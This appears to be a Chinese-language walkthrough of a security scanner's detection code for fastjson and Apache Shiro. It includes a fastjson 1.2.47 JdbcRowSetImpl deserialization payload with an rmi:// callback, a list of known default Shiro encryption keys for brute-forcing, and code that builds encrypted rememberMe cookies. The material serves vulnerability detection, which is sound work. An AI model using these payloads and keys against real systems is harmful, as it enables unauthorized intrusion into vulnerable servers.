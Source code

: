 1.2.47的payload  
```python
# for fastjson 1.2.47
fastjson_payload = {
    random_str(4): {
        "@type": "java.lang.Class",
        "val": "com.sun.rowset.JdbcRowSetImpl"
    },
    random_str(4): {
        "@type": "com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName": "rmi://{}".format(domain),
        "autoCommit": True
    }
}
```

###### shiro Shiro框架检测以及Key爆破


先判断是否是 Shiro 直接从响应中判断  
```python
if "deleteMe" in respHeader.get('Set-Cookie', ''):
    isShiro = True
```
是的话先产生一条漏洞  

如果响应中没有 在cookie里加下 `_cookie["rememberMe"] = "2"`  

然后发请求 如果在响应头中看的 `deleteMe` 则说明是Shiro  
```python
if req and "deleteMe" in req.headers.get('Set-Cookie', ''):
    isShiro = True
```

这里如果是Shiro还会爆破下key  
默认的key
```python
def _check_key(self):
keys = [
    'kPH+bIxk5D2deZiIxcaaaA==', '4AvVhmFLUs0KTA3Kprsdag==', 'WkhBTkdYSUFPSEVJX0NBVA==',
    'RVZBTk5JR0hUTFlfV0FPVQ==', 'U3ByaW5nQmxhZGUAAAAAAA==',
    'cGljYXMAAAAAAAAAAAAAAA==', 'd2ViUmVtZW1iZXJNZUtleQ==', 'fsHspZw/92PrS3XrPW+vxw==',
    'sHdIjUN6tzhl8xZMG3ULCQ==', 'WuB+y2gcHRnY2Lg9+Aqmqg==',
    'ertVhmFLUs0KTA3Kprsdag==', '2itfW92XazYRi5ltW0M2yA==', '6ZmI6I2j3Y+R1aSn5BOlAA==',
    'f/SY5TIve5WWzT4aQlABJA==', 'Jt3C93kMR9D5e8QzwfsiMw==',
    'aU1pcmFjbGVpTWlyYWNsZQ==',
]
```

生成payload  

```python
def generator_payload(self, key):
    payload = b'\xac\xed\x00\x05sr\x002org.apache.shiro.subject.SimplePrincipalCollection\xa8\x7fX%\xc6\xa3\x08J\x03\x00\x01L\x00\x0frealmPrincipalst\x00\x0fLjava/util/Map;xppw\x01\x00x'
    iv = b'w\xcf\xd7\x98\xa8\xe9LD\x97LN\xd0\xa6\n\xb8\x1a'
    backend = default_backend()
    cipher = Cipher(algorithms.AES(base64.b64decode(key)), modes.CBC(iv), backend=backend)
    encryptor = cipher.encryptor()
    BS = algorithms.AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    file_body = pad(payload)
    ct = encryptor.update(file_body)
    base64_ciphertext = base64.b64encode(iv + ct)
    return base64_ciphertext.decode()

```
